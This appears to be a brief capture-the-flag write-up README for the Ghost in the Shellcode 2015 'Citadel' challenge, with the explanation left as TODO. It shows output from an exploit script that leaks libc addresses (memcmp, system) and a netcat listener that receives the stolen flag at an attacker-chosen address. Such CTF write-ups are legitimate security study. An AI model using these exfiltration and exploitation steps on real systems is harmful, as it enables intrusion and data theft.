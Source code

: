 # Ghost in the Shellcode 2015 teaser: Citadel

**Description:**

> Steal the key!
>
> [File](citadel-4ee854f5f99e4c62924059a2838cd6147f42d54f9e743b4dbe873aa10b850a32) running at citadel.2015.ghostintheshellcode.com:5060

## Write-up

(TODO)

Locally, run `solve.py` after changing the `server_ip` and `server_port` variables:

```bash
$ python solve.py
[+] Opening connection to citadel.2015.ghostintheshellcode.com on port 5060: OK
memcmp at: 0x00007faa50223ae0
system at: 0x00007faa50109530
Flag should be on its way!
[*] Closed connection to citadel.2015.ghostintheshellcode.com port 5060
```

But before that, start listening on the IP/port you specified in `solve.py`. When `solve.py` runs, the flag is sent there.

```bash
$ nc -vlp 9001
listening on [any] 9001 ...
connect to [13.33.33.37] from ec2-54-83-45-212.compute-1.amazonaws.com [54.83.45.212] 51867
key{Should have used boost::format}
```

The flag is `key{Should have used boost::format}`.

## Other write-ups and resources

* [Write-up by team gn00bz](http://gnoobz.com/gits-teaser-2015-ctf-citadel-writeup.html)
* [Exploit by team gn00bz](solve.py)

